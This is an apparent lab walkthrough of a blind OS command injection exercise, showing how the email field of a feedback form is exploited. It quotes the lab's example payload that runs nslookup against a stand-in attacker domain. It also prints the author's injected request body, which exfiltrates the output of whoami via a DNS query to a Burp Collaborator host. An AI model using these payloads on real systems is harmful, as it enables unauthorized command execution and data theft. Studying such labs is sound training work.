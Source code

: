 # Lab Blind OS command injection with out-of-band data exfiltration

## Objective:
 This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, execute the whoami command and exfiltrate the output via a DNS query to Burp Collaborator. You will need to enter the name of the current user to complete the lab. 

## Big Idea:

The out-of-band channel also provides an easy way to exfiltrate the output from injected commands:

& nslookup `whoami`.kgji2ohoyw.web-attacker.com &

This will cause a DNS lookup to the attacker's domain containing the result of the whoami command 

wwwuser.kgji2ohoyw.web-attacker.com


-----------------------------------

This is what the lab welcome page looks like

![image](https://user-images.githubusercontent.com/90155329/135768304-bed02963-bd1b-4e7c-8bb1-65fe062ee3e2.png)

Visiting the "Submit feedback" link responds to the following page. 

Looks Juicy!

![image](https://user-images.githubusercontent.com/90155329/135768314-4b728b8a-087d-4412-9d3f-9e25706acaf7.png)

One of these values is vulnerable to command injection. This is when user input parameters in a website can force the application to execute commands. 

I sent the following, and intercepted the request with Burp Intercept. 

![image](https://user-images.githubusercontent.com/90155329/135768326-02e760d8-8af4-4a77-beff-efcf65fde4c1.png)

![image](https://user-images.githubusercontent.com/90155329/135768329-46eab83f-5658-4b54-bb2c-732c1fb9cbec.png)

I will attack the "email" value

First, since this is data exfil lab, I need to setup a listener for the exfiltrated data. Burp Collaborator is a function that comes with Burp Pro. It gives me a unique domain, and listens for any DNS or web requests and outputs those requests to my Burp Collaboartor client. It is great for testing out of band techniques. 

To start burp collaborator, go to Burp > Burp Collaborator Client

![image](https://user-images.githubusercontent.com/90155329/135768334-90afa3a9-39e9-4878-8833-0b642e6bba04.png)

This started a listener and gave me the following domain.
nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net

Now, going back to the command injection, I want to have the target execute the following command

`nslookup $(whoami).nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net`

That will send a dns query containing the user that the web application is running as. 

I will inject that command in the email parameter

`nslookup $(whoami).nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net`

This is what the body looked like after injecting the above payload into the email parameter.

csrf=6b9o9YhnDAT4GIcsE94GZQ8UUgHDTRCU&name=bagelHacks&email=bagelHacks%2540hacker.hacker`nslookup+$(whoami).nzqyy86k404hxyr4tkwv45bk6bc10q.burpcollaborator.net`&subject=test&message=testing

![image](https://user-images.githubusercontent.com/90155329/135768350-8d1b1e60-9095-4a31-a922-68f2573da645.png)

After sending the command, I received a DNS query containing the username of "peter-8i7dNd" on my Burp Collaborator client

![image](https://user-images.githubusercontent.com/90155329/135768354-c11665c1-25bc-4691-a871-0a05bcb71b19.png)

![image](https://user-images.githubusercontent.com/90155329/135768363-14d18b3c-d155-46c4-ae1d-032708ce8bef.png)
